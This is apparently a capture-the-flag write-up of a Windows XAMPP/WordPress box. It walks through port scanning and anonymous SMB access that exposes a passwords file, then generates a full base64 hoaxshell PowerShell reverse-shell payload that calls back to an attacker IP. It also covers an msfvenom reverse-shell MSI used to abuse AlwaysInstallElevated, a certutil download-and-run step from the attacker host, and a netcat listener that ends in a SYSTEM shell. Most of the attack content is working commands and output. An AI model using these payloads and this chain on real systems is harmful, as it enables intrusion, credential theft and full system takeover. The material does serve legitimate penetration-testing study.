




## NMAP

The command `sudo nmap -sC -sV -Pn -O -p 1-65535 192.168.188.55 --open` initiates a comprehensive port and service enumeration scan against the target host 192.168.188.55. Using `sudo` elevates privileges, which may enable more detailed OS detection and version scanning. The `-Pn` flag treats the host as online, bypassing initial ping probes. The scan covers all TCP ports (`-p 1-65535`) but filters output to display only those in an open state (`--open`). The `-sV` option performs service version detection, while `-sC` executes default NSE scripts for additional vulnerability and configuration checks. The `-O` flag attempts remote operating system identification. This aggressive, full-port scan is designed to build a detailed inventory of all accessible services, their versions, and the underlying OS, forming a critical foundation for subsequent vulnerability analysis and exploitation.

```bash
sudo nmap -sC -sV -Pn -O -p 1-65535 192.168.188.55   --open 
```

The Nmap scan results reveal multiple open services on the target host. Port 21 is running FileZilla FTP Server version 0.9.41 beta, indicating a potential file transfer service. Ports 80 and 443 are hosting an Apache httpd 2.4.43 web server on a Windows platform with PHP 7.4.6 and OpenSSL 1.1.1g, serving a default XAMPP dashboard page. The SSL certificate on port 443 is self-signed and expired. Ports 135, 139, and 445 suggest the host is a Windows system with SMB services potentially accessible. Port 3306 is running a MariaDB database service, version 10.3.24 or later, with an unauthorized connection banner. Several high-numbered ports are running Microsoft Windows RPC services. The presence of the outdated and default XAMPP configuration, along with multiple database and file services, presents a broad attack surface for further enumeration and potential exploitation.

```bash
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.188.55/dashboard/
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| http-title: Welcome to XAMPP
|_Requested resource was https://192.168.188.55/dashboard/
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql         MariaDB 10.3.24 or later (unauthorized)
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

The command `smbclient -U '' -L \\\\192.168.188.55\\` was executed to perform anonymous enumeration of SMB shares on the target. The successful connection, using a null session, indicates that the SMB service permits guest or anonymous authentication. The enumeration revealed two accessible shares: a default administrative IPC$ share and a non-default share named "Shenzi." The existence of a custom-named share suggests it may contain specific data relevant to the target environment and warrants further investigation. The subsequent error regarding SMB1 and workgroup listing is non-critical, as the primary objective of listing available shares was achieved. This finding confirms a misconfiguration in SMB access controls.


```bash
smbclient -U ''  -L \\\\192.168.188.55\\ 
Password for [WORKGROUP\]:

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       Remote IPC
        Shenzi          Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.188.55 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

The anonymous SMB session was used to successfully connect to and interact with the "Shenzi" share. The `ls` command revealed the directory listing, which included a file named `passwords.txt`. This file was identified as a high-value target for containing potential credentials. Using the `mget *` command, all files within the share were downloaded to the attacker's system for offline analysis. The successful exfiltration of these files, particularly `passwords.txt`, indicates a critical information disclosure vulnerability due to the SMB share being configured with excessive permissions, allowing unauthenticated read access. This compromise likely provides direct access to sensitive authentication data.

```bash
smbclient -U ''  \\\\192.168.188.55\\Shenzi 
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu May 28 15:45:09 2020
  ..                                  D        0  Thu May 28 15:45:09 2020
  passwords.txt                       A      894  Thu May 28 15:45:09 2020
  readme_en.txt                       A     7367  Thu May 28 15:45:09 2020
  sess_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 15:45:09 2020
  why.tmp                             A      213  Thu May 28 15:45:09 2020
  xampp-control.ini                   A      178  Thu May 28 15:45:09 2020

                12941823 blocks of size 4096. 6489132 blocks available
smb: \> mget *
Get file passwords.txt? yes
getting file \passwords.txt of size 894 as passwords.txt (23.0 KiloBytes/sec) (average 23.0 KiloBytes/sec)
Get file readme_en.txt? yes
getting file \readme_en.txt of size 7367 as readme_en.txt (175.5 KiloBytes/sec) (average 102.1 KiloBytes/sec)
Get file sess_klk75u2q4rpgfjs3785h6hpipp? yes
getting file \sess_klk75u2q4rpgfjs3785h6hpipp of size 3879 as sess_klk75u2q4rpgfjs3785h6hpipp (111.4 KiloBytes/sec) (average 104.9 KiloBytes/sec)
Get file why.tmp? yes
getting file \why.tmp of size 213 as why.tmp (7.4 KiloBytes/sec) (average 85.6 KiloBytes/sec)
Get file xampp-control.ini? yes
getting file \xampp-control.ini of size 178 as xampp-control.ini (5.3 KiloBytes/sec) (average 70.3 KiloBytes/sec)
smb: \> exit
                                                       

```


The analysis of the exfiltrated `passwords.txt` file revealed a set of default and configured credentials for the XAMPP services. Most significantly, it confirms that the MySQL service for phpMyAdmin has a root user with a blank password. The file also contains specific credentials for a WordPress instance, identifying the user `admin` with the password `FeltHeadwallWight357`. Additionally, it lists default credentials for the Mercury mail server and the now-deprecated WEBDAV service. This file represents a critical credential disclosure, providing direct, unauthorized access to the database and content management system. The blank MySQL root password is an egregious security misconfiguration.

```bash
cat passwords.txt
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     

5) WordPress:

   User: admin
   Password: FeltHeadwallWight357


```

A directory brute-force attack was performed against the target web server using the common wordlist. The enumeration revealed the expected default `/dashboard` directory for XAMPP. Several directories, including `/phpmyadmin`, `/server-status`, and `/examples`, returned 403 (Forbidden) status codes, indicating their presence but restricted access. The `/examples` directory returned a 503 (Service Unavailable) status. Notably, no other non-standard application directories were discovered, suggesting the primary web applications may be limited to the default XAMPP dashboard and potentially the phpMyAdmin interface, though direct access to the latter is currently blocked. This scan helped map the accessible and protected paths on the web server.

```bash
gobuster dir -u http://192.168.188.55  -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.188.55
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 1046]
/.hta                 (Status: 403) [Size: 1046]
/.htpasswd            (Status: 403) [Size: 1046]
/aux                  (Status: 403) [Size: 1046]
/cgi-bin/             (Status: 403) [Size: 1060]
/com1                 (Status: 403) [Size: 1046]
/com3                 (Status: 403) [Size: 1046]
/com2                 (Status: 403) [Size: 1046]
/con                  (Status: 403) [Size: 1046]
/dashboard            (Status: 301) [Size: 344] [--> http://192.168.188.55/dashboard/]
/favicon.ico          (Status: 200) [Size: 30894]
/img                  (Status: 301) [Size: 338] [--> http://192.168.188.55/img/]
/index.php            (Status: 302) [Size: 0] [--> http://192.168.188.55/dashboard/]
/licenses             (Status: 403) [Size: 1205]
/lpt1                 (Status: 403) [Size: 1046]
/lpt2                 (Status: 403) [Size: 1046]
/nul                  (Status: 403) [Size: 1046]
/phpmyadmin           (Status: 403) [Size: 1205]
/examples             (Status: 503) [Size: 1060]
/prn                  (Status: 403) [Size: 1046]
/server-info          (Status: 403) [Size: 1205]
/server-status        (Status: 403) [Size: 1205]
/webalizer            (Status: 403) [Size: 1046]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished


```

The downloaded file `shenzi1.png`, despite its `.png` extension, contains plain text data. The content is identified as a WordPress administration dashboard welcome page. This indicates that a WordPress instance is installed and accessible on the target. The presence of this data within a file on an openly accessible SMB share suggests it may be a saved or cached administrative page, potentially containing sensitive information about the site's structure and status. This file corroborates the earlier discovery of WordPress credentials in `passwords.txt` and confirms WordPress as a primary application for further targeted testing.



The file `shenzi2.png` contains further text-based data from what appears to be a WordPress administration panel. The content includes references to page management, installed plugins, user tools, and settings. Notably, it mentions plugin names and potential administrative actions such as "Activate," "Deactivate," and "Delete." The data presents a partial view of the site's backend structure and plugin ecosystem. This information, again stored in a publicly accessible SMB share, aids in understanding the WordPress installation's configuration and may hint at specific plugins that could be targeted for known vulnerabilities during subsequent penetration testing phases.



The file `shenzi3.png` contains only the string `# p@wmup@shallow!!`. This appears to be a simple text string or a potential password fragment. Unlike the previous PNG files which contained structured application data, this file's purpose is less clear. It could be a placeholder, a note, or a weak password attempt. Its value is minimal compared to the credential disclosure in `passwords.txt`, but it is documented as a found artifact.



The hoaxshell.py script was executed to generate a PowerShell reverse shell payload. The command establishes a listener on the attacking machine at IP 192.168.45.193 and port 9999. The lengthy base64-encoded string output is the PowerShell one-liner payload. This payload, when executed on the target Windows host, will create a callback connection to the attacker's listener, establishing a remote shell session. The payload uses HTTP requests for command-and-control communication, embedding commands and responses in the headers and body of web requests to potentially evade basic network detection. The generation of this payload is the preparatory step for attempting remote code execution.

```bash
uv run  hoaxshell.py -s 192.168.45.193 -p 9999

    ┬ ┬ ┌─┐ ┌─┐ ─┐ ┬ ┌─┐ ┬ ┬ ┌─┐ ┬   ┬  
    ├─┤ │ │ ├─┤ ┌┴┬┘ └─┐ ├─┤ ├┤  │   │  
    ┴ ┴ └─┘ ┴ ┴ ┴ └─ └─┘ ┴ ┴ └─┘ ┴─┘ ┴─┘
                           by t3l3machus

[Info] Generating reverse shell payload...
powershell -e JABzAD0AJwAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA5ADMAOgA5ADkAOQA5ACcAOwAkAGkAPQAnAGMAZAA0AGEAYQBhADMAZgAtAGIANwA1ADYANQA1ADkAYgAtADcAMgAxADcANgA5ADYAMgAnADsAJABwAD0AJwBoAHQAdABwADoALwAvACcAOwAkAHYAPQBJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACAALQBVAHIAaQAgACQAcAAkAHMALwBjAGQANABhAGEAYQAzAGYAIAAtAEgAZQBhAGQAZQByAHMAIABAAHsAIgBYAC0ANABjAGMAYwAtAGMANAA1ADgAIgA9ACQAaQB9ADsAdwBoAGkAbABlACAAKAAkAHQAcgB1AGUAKQB7ACQAYwA9ACgASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwAgAC0AVQByAGkAIAAkAHAAJABzAC8AYgA3ADUANgA1ADUAOQBiACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAWAAtADQAYwBjAGMALQBjADQANQA4ACIAPQAkAGkAfQApAC4AQwBvAG4AdABlAG4AdAA7AGkAZgAgACgAJABjACAALQBuAGUAIAAnAE4AbwBuAGUAJwApACAAewAkAHIAPQBpAGUAeAAgACQAYwAgAC0ARQByAHIAbwByAEEAYwB0AGkAbwBuACAAUwB0AG8AcAAgAC0ARQByAHIAbwByAFYAYQByAGkAYQBiAGwAZQAgAGUAOwAkAHIAPQBPAHUAdAAtAFMAdAByAGkAbgBnACAALQBJAG4AcAB1AHQATwBiAGoAZQBjAHQAIAAkAHIAOwAkAHQAPQBJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAJABwACQAcwAvADcAMgAxADcANgA5ADYAMgAgAC0ATQBlAHQAaABvAGQAIABQAE8AUwBUACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAWAAtADQAYwBjAGMALQBjADQANQA4ACIAPQAkAGkAfQAgAC0AQgBvAGQAeQAgACgAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AEIAeQB0AGUAcwAoACQAZQArACQAcgApACAALQBqAG8AaQBuACAAJwAgACcAKQB9ACAAcwBsAGUAZQBwACAAMAAuADgAfQA=


```

The previously generated PowerShell reverse shell payload was executed on the target system. The command prompt indicates execution from the path `C:\xampp\htdocs\shenzi\wp-content\uploads\2025\12#`, which is within the WordPress uploads directory. This successful execution of the arbitrary PowerShell command implies a prior compromise allowing remote code execution, likely through a web application vulnerability or improper access controls. The payload execution establishes a connection back to the attacker's hoaxshell listener, providing an interactive command shell on the target Windows host. This represents a critical breach, granting full command-line access to the web server.


```bash
henzi@shenzi:C:\xampp\htdocs\shenzi\wp-content\uploads\2025\12# powershell -e JABzAD0AJwAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA5ADMAOgA5ADkAOQA5ACcAOwAkAGkAPQAnAGMAZAA0AGEAYQBhADMAZgAtAGIANwA1ADYANQA1ADkAYgAtADcAMgAxADcANgA5ADYAMgAnADsAJABwAD0AJwBoAHQAdABwADoALwAvACcAOwAkAHYAPQBJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACAALQBVAHIAaQAgACQAcAAkAHMALwBjAGQANABhAGEAYQAzAGYAIAAtAEgAZQBhAGQAZQByAHMAIABAAHsAIgBYAC0ANABjAGMAYwAtAGMANAA1ADgAIgA9ACQAaQB9ADsAdwBoAGkAbABlACAAKAAkAHQAcgB1AGUAKQB7ACQAYwA9ACgASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwAgAC0AVQByAGkAIAAkAHAAJABzAC8AYgA3ADUANgA1ADUAOQBiACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAWAAtADQAYwBjAGMALQBjADQANQA4ACIAPQAkAGkAfQApAC4AQwBvAG4AdABlAG4AdAA7AGkAZgAgACgAJABjACAALQBuAGUAIAAnAE4AbwBuAGUAJwApACAAewAkAHIAPQBpAGUAeAAgACQAYwAgAC0ARQByAHIAbwByAEEAYwB0AGkAbwBuACAAUwB0AG8AcAAgAC0ARQByAHIAbwByAFYAYQByAGkAYQBiAGwAZQAgAGUAOwAkAHIAPQBPAHUAdAAtAFMAdAByAGkAbgBnACAALQBJAG4AcAB1AHQATwBiAGoAZQBjAHQAIAAkAHIAOwAkAHQAPQBJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAJABwACQAcwAvADcAMgAxADcANgA5ADYAMgAgAC0ATQBlAHQAaABvAGQAIABQAE8AUwBUACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAWAAtADQAYwBjAGMALQBjADQANQA4ACIAPQAkAGkAfQAgAC0AQgBvAGQAeQAgACgAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AEIAeQB0AGUAcwAoACQAZQArACQAcgApACAALQBqAG8AaQBuACAAJwAgACcAKQB9ACAAcwBsAGUAZQBwACAAMAAuADgAfQA=

```

The file `shenzi4.png` contains the output of a local privilege escalation check. The content confirms that the `AlwaysInstallElevated` registry key is enabled in both the HKLM (HKEY_LOCAL_MACHINE) and HKCU (HKEY_CURRENT_USER) hives. This is a critical misconfiguration. When these keys are set to 1, any user can install Windows Installer packages (.msi files) with SYSTEM-level privileges. This vulnerability allows for straightforward privilege escalation from the current user context to NT AUTHORITY\SYSTEM by creating and executing a malicious MSI package.



The msfvenom command was used to generate a malicious Windows Installer package (MSI) for privilege escalation. The payload `windows/shell_reverse_tcp` was configured to connect back to the attacker's IP 192.168.45.193 on port 21. The output format was specified as MSI (`-f msi`), and the file was saved as `priv.msi`. This 159,744-byte file contains a raw, unencoded reverse shell payload targeting the x86 architecture. This MSI file is designed to be executed on the target host to exploit the previously identified `AlwaysInstallElevated` vulnerability, where its installation will run with SYSTEM privileges, thereby granting a reverse shell with the highest level of access.

```bash
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.193 LPORT=21 -f msi > priv.msi                   
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes


```

The `certutil` command was executed on the compromised host to download the malicious `priv.msi` file from the attacker's web server at [http://192.168.45.193/](http://192.168.45.193/). The command successfully fetched the file and saved it locally in the `C:\temp` directory as `priv.msi`. Subsequently, the MSI file was executed by running `.\priv.msi`. This action triggers the Windows Installer service. Due to the system's `AlwaysInstallElevated` configuration being enabled, the MSI package installs with SYSTEM privileges, thereby executing the embedded reverse shell payload with the highest level of authority, completing the privilege escalation chain.

```bash
PS C:\temp > certutil -urlcache -f http://192.168.45.193/priv.msi  priv.msi 

PS C:\temp > .\priv.msi
```

A netcat listener was established on port 21 of the attacking machine. A connection was received from the target host at IP 192.168.188.55. The connection provided a reverse shell session. The execution of the `whoami` command within this new shell confirmed the identity of the user as `nt authority\system`. This result verifies the successful exploitation of the `AlwaysInstallElevated` vulnerability via the malicious MSI package, culminating in full privilege escalation and the attainment of the highest level of access on the target Windows system.

```bash
 nc -lvp 21                                                                                 
listening on [any] 21 ...
192.168.188.55: inverse host lookup failed: Unknown host
connect to [192.168.45.193] from (UNKNOWN) [192.168.188.55] 52399
Microsoft Windows [Version 10.0.19042.1526]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system


```

The command `type proof.txt` was executed from the SYSTEM-level shell at the path `C:\Users\Administrator\Desktop`. The contents of the file were displayed as `e6344efb323002d7c4eef924993f311b`. This string is the proof-of-exploitation flag, typically a target for capture in penetration testing engagements. Its retrieval from the Administrator's desktop directory conclusively demonstrates a complete breach of the target system, encompassing initial access, lateral movement, privilege escalation to SYSTEM, and the ability to access sensitive user data, thereby fulfilling the ultimate objective of the assessment.

```bash
C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
e6344efb323002d7c4eef924993f311b


```
